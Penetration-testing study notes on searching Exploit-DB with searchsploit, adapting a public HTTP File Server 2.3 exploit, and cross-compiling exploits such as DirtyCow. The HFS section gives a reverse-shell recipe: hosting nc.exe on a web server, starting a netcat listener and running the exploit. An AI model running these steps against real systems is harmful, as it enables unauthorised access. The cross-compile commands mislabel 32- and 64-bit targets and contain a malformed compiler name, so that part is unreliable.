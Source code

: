 
**Searching for exploits** 

After identifying a potential vulnerability with a target or service running on a target. 

##### Searching public available exploits 
- searching online is risky  (exploit code can be malicious)
- trustworthy databases: Exploit-db & Rapid7
- google search: `   [vulnerability] site:Rapid7.com`
- Github
- packet storm 


#####  Searching with SearchSploit
- Exploit-db comes pre-packed with kali 
- Exploit-db can be queried using SearchSploit 
  

#####  How to use searchsploit  
	- sudo apt-get update && sudo apt-get install exploit-db -y
	- ls -al /usr/share/exploitdb
	- ls -al /usr/share/exploitdb/exploits 

- exploit-db is updated daily  so you need to update using -u: `searchsploit -u `
- `searchsploit` 
- `searchsploit service` 
- `searchsploit service version`
- `searchsploit -m exploit_id-number`
- `searchsploit -m /path `
  copy an exploit in to your current working directory?
- `ls -al `--> `vim exploit_file`
- `searchsploit -c keyword`
- `searchsploit -t title_keyword`
- `searchsploit -e  "keywords/titel"`
- `searchsploit -e  "keywords/titel"`` | grep -e "match with"`
- `searchsploit remote Operating_system service ` 
  search for exploits that match parameter 
- `searchsploit remote windows buffer`
- `searchsploit remote linux service`
- `searchsploit remote wordpress | grep -e "webapps"`
- `remote windows smb -w 
  list online links to download and see exploit code
- `sudo cp /usr/share/exploitdb/exploits/windows/remote/42031.py .`  
  copy exploit manually 


----

### Fixing exploits 
Public exploit code sneeds to be adjusted to own requirements (port, ip etc)

- `nmap -sV ip` 
- `searchsploit HTTP File Server 2.3`
- `searchsploit -m exploit_id` 
  make copy of exploit
- `vim exploit_file`
  Analyze exploit on high level , and check if you need to modify the code (adding ip and port, nc executable)
	  - netcat executable: `cp /usr/share/windows-resources/binaries/nc.exe `
	    
3 windows: 
- (terminal 1) 	running exploit itself - launch exploit
	- ` file.py target_ _ip and service_port`
- (terminal 2) setup webserver to host netcat executable 
	- `python -m SimpleHTTPServer 80` 
- (terminal 3)   netcat listner will be running, obtain command shell session
	- `nc -nvlp 1234`


**Identifying and Preparing Exploits:**
1. Search for available exploits related to the target service (e.g., HTTP File Server 2.3):
	    - `searchsploit HTTP File Server 2.3`
1. If needed, display the details of a specific exploit and make a copy of it (replace `exploit_id` with the actual exploit ID):
	    - `searchsploit -m exploit_id`
2. Copy the netcat (nc.exe) executable to your working directory:
	    - `cp /usr/share/windows-resources/binaries/nc.exe .`
      
**Setting Up Exploit:** 
4. Open the exploit file using a text editor (e.g., Vim):
	- `vim exploit_file`
	 Analyze the exploit code at a high level and check if any modifications are required. This may involve adding the target IP address and service port, as well as specifying the path to the netcat executable if necessary.

**Setting Up Webserver:** 
6. In Terminal 2, set up a web server to host the netcat executable:
	- `python -m SimpleHTTPServer 80
	  `
**Listening for Incoming Connections:** 
7. In Terminal 3, start a netcat listener to capture the shell session:
	- `nc -nvlp 1234`
	This reordering ensures that the identification and preparation of exploits take place before the actual exploit execution, and the netcat setup is done before listening for incoming connections.
	
**Run Exploit**
In Terminal 1, run the exploit script with the target IP address and service port:
- `python exploit_file target_ip service_port`



----




### Cross-Compiling Exploits 
- Exploit code can also be developed in C/C++/c# as result. you need to compile the exploit code in to a PE (portable executable) or binary 
- Cross-compiling is the process of compiling code for a platform other than the one performing the compilation. 

##### Exploit code developed in C

Tools needed: Mingw-w64 en gcc
	install on kali:` sudo apt-get install mingw-w64`
							`sudo apt-get install gcc` 

Download the exploit:
- `searchsploit keyword `
- `searchsploit -m exploit_id`
Recommend to download  32 bit exploit (will run on both 32 and 64 bit systems)

inspect c file (sometimes comments with how to compile are included)
- `vim file`

compile for 64 bit systems
- `i686-w64-mingw32-gcc c_file -o portable_executable_file_name`

compile for 32 bit system: 
- `i686-w64-mingw32-mingw32-gcc c_file -o portable_executable_file_name -lws2_32 
![[Pasted image 20230901111125.png]]


DirtyCow exploit 
- `searchsploit Dirty Cow` 
- `searchsploit -m 40839.c` 
- `gcc -pthread 40839.c -o exploit -lcrypt` 


compilation with gcc is only for linux 
Precompiled binaries can be found on github page of offensive security 
![[Pasted image 20230901111625.png]]






